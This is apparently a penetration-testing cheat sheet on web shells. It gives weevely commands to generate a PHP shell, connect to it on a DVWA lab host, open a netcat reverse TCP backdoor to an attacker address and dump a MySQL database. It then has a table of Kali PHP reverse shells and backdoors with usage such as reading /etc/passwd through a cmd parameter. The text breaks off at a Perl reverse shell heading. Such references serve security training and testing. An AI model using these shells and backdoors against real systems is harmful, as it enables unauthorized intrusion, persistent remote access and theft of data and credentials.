 # ⭕ Other Payloads

## <mark style="color:red;">Web Shells</mark>

The following shells exist within Kali Linux, under /usr/share/webshells/ these are only useful if you are able to upload, inject or transfer the shell to the machine.

### <mark style="color:orange;">weevely payloads</mark>

generate:

```
weevely generate [password] [file name].php
```

connect:

```
weevely http://192.168.56.102/dvwa/hackable/uploads/shell.php [password]
```

​run a reverse tcp backdoor from weevely shell:

```
backdoor_reversetcp -vector netcat 192.168.56.1 6969
```

dump sql database with weevely:

```
sql_dump -vector mysqldump_sh -host localhost -lpath /root/dvwa-data.txt db name] [user] [passwd]
```

### <mark style="color:orange;">Kali PHP Web Shells</mark>

Kali PHP reverse shells and command shells:

| Command                                                                               | Description                                                                                                                                                           |
| ------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| /usr/share/webshells/php/ php-reverse-shell.php                                       | Pen Test Monkey - PHP Reverse Shell                                                                                                                                   |
| /usr/share/webshells/ php/php-findsock-shell.php /usr/share/webshells/ php/findsock.c | Pen Test Monkey, Findsock Shell. Build gcc -o findsock findsock.c (be mindfull of the target servers architecture), execute with netcat not a browser nc -v target 80 |
| /usr/share/webshells/ php/simple-backdoor.php                                         | PHP backdoor, usefull for CMD execution if upload / code injection is possible, usage: http://target.com/simple- backdoor.php?cmd=cat+/etc/passwd                     |
| /usr/share/webshells/ php/php-backdoor.php                                            | Larger PHP shell, with a text input box for command execution.                                                                                                        |

{% hint style="info" %}
The last two shells above are not reverse shells, however they can be useful for executing a reverse shell.
{% endhint %}

### <mark style="color:orange;">Kali Perl Reverse Shell</mark>

Kali perl reverse shell:\\
